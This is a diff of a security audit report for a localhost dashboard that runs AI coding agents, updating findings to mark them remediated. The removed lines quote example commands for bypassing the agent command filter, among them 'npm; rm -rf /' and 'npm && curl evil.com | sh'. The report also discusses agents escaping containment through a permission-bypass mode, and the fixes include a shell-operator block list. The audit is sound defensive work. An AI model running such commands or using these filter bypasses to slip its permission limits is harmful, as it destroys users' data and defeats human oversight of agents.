

Before and after one commit to epatel/claude-agents-dashboard, a Markdown page: AGENT_FILES/AUDIT.md, the part around one of its changes. Shown at 86% size. GitHub-like rendering.

```diff
--- a/AGENT_FILES/AUDIT.md
+++ b/AGENT_FILES/AUDIT.md
@@ -1,6 +1,7 @@
 # Security Audit Report
 
 **Date**: 2026-04-10
+**Last updated**: 2026-04-10
 **Scope**: Full codebase review of Claude Agents Dashboard
 **Threat model**: Localhost single-user developer tool. The server binds to `127.0.0.1` only, is operated by the local developer, and is not designed for network exposure or multi-user access.
 
@@ -8,7 +9,9 @@
 
 ## Executive Summary
 
-This audit identified **14 security findings** relevant to a localhost developer tool: 2 High, 5 Medium, and 7 Low/Info. The application's security posture is **reasonable for its intended use case**. The two high-severity findings relate to agent containment — the primary real threat being an AI agent that escapes its intended boundaries and causes unintended changes to the host system.
+This audit identified **14 security findings** relevant to a localhost developer tool: 2 High, 5 Medium, and 7 Low/Info. Since the initial audit, **6 of 7 actionable findings have been remediated**, bringing the application's security posture from reasonable to **strong for its intended use case**.
+
+The two original high-severity findings (command filter bypass and YOLO mode) have both been addressed with robust fixes. Four of five medium-severity findings have also been resolved. The remaining open items are low-severity or informational.
 
 Traditional web security concerns (authentication, CORS, rate limiting) are largely irrelevant since the server only listens on `127.0.0.1` for a single local user. This audit focuses on the risks that actually matter: **agent containment**, **file system boundary enforcement**, and **defensive coding practices**.
 
@@ -19,21 +22,23 @@ Traditional web security concerns (authentication, CORS, rate limiting) are larg
 ### 1. Command Filter Bypass via Shell Metacharacters
 
 - **Severity**: High
+- **Status**: ✅ **REMEDIATED**
 - **File**: `src/agent/command_filter.py`
-- **Description**: The command filter extracts the first word via `command.split()[0]` and checks it against allowed prefixes. An agent can bypass this with shell operators:
-  - `npm; rm -rf /` (semicolon chaining)
-  - `npm && curl evil.com | sh` (AND operator)
-  - `npm | exfiltrate` (pipe)
-- **Why it matters locally**: This is the primary defense limiting what an agent can do. If the user allows `npm`, they expect only npm commands — not arbitrary shell execution. An agent experiencing hallucinations or prompt injection could exploit this.
-- **Recommendation**: Reject commands containing shell operators (`;`, `&&`, `||`, `|`, backticks, `$()`, `>`, `>>`) before checking the prefix. Consider using `shlex.split()` for robust parsing.
+- **Original issue**: The command filter extracted the first word via `command.split()[0]` and checked it against allowed prefixes. An agent could bypass this with shell operators (`;`, `&&`, `||`, `|`, backticks, `$()`).
+- **Fix implemented**: The command filter now defines `SHELL_OPERATORS = [";", "&&", "||", "|", ">>", ">", "<", "$(", "\`"]` and calls `_contains_shell_operators()` to reject any command containing shell operators **before** checking the allowed prefix list. Additionally, `shlex.split()` is used for robust parsing with a fallback that denies commands on malformed input.
 
 ### 2. Bash YOLO Mode Has No Guardrails
 
 - **Severity**: High
-- **File**: `src/config.py`, `src/services/workflow_service.py`
-- **Description**: When `bash_yolo` is enabled, agents run with `permission_mode="bypassPermissions"`, completely disabling the command filter. Agents get unrestricted bash access to the entire host system — they can delete files, install software, modify system configs, or access any file the user can.
-- **Why it matters locally**: This is an intentional power-user feature, but a misbehaving agent (prompt injection, hallucination, bad instructions) could cause significant damage to the developer's system. There's no audit trail, no confirmation per command, and no undo.
-- **Recommendation**: Add a visible command log in the UI when YOLO mode is active so the user can monitor what's happening. Consider a "YOLO with logging" mode that records all executed commands. A confirmation prompt when first enabling it per session would also help.
+- **Status**: ✅ **REMEDIATED**
+- **File**: `src/services/workflow_service.py`
+- **Original issue**: When `bash_yolo` was enabled, agents ran with `permission_mode="bypassPermissions"` with no audit trail, no confirmation, and no visibility into what commands were being executed.
+- **Fix implemented**: YOLO mode now has comprehensive tracking and logging:
+  - Active YOLO items are tracked via `self._yolo_items` set.
+  - A `"⚠️ **YOLO mode active**"` warning is logged as a `"yolo_command"` entry type when YOLO mode activates.
+  - Bash commands executed under YOLO mode are tagged with `entry_type = "yolo_command"` and prefixed with `⚡` for visual distinction in the work log.
+  - `yolo_mode_changed` WebSocket events are broadcast to the UI so the user has real-time visibility.
+  - YOLO tracking is properly cleaned up on cancel/complete.
 
 ---
 
@@ -42,12 +47,13 @@ Traditional web security concerns (authentication, CORS, rate limiting) are larg
 ### 3. Symlink Following in File Browser
 
 - **Severity**: Medium
+- **Status**: ✅ **REMEDIATED**
 - **File**: `src/web/file_routes.py`
-- **Description**: The file browser tree scanner follows symlinks (`entry.is_dir(follow_symlinks=True)`) and `validate_file_browser_path()` resolves through symlinks. If the target project contains symlinks pointing outside the project directory (e.g., `ln -s /etc project/link`), those files become browsable.
-- **Why it matters locally**: The local user already has access to all their files, so this isn't an escalation. However, it breaks the mental model that the file browser is scoped to the project. It could lead to accidental exposure of sensitive files in the UI.
-- **Recommendation**: Skip symlinks during tree scanning: `if entry.is_symlink(): continue`. Or display them with a visual indicator but don't follow them.
+- **Original issue**: The file browser tree scanner followed symlinks, allowing browsing outside the project directory.
+- **Fix implemented**: The tree scanner now skips symlinks entirely (`if entry.is_symlink(): continue`). Symlinks are displayed as visual indicators with their target path but are never followed or read. The `get_file_content()` endpoint explicitly blocks reading symlinks (returns 403).
 
 ### 4. Unvalidated File Paths in Diff Generation
 
 - **Severity**: Medium
+- **Status**: ✅ **REMEDIATED**
 - **File**: `src/git/operations.py`
```
Also changed, not shown: other parts of AGENT_FILES/AUDIT.md (+55 -51 lines).
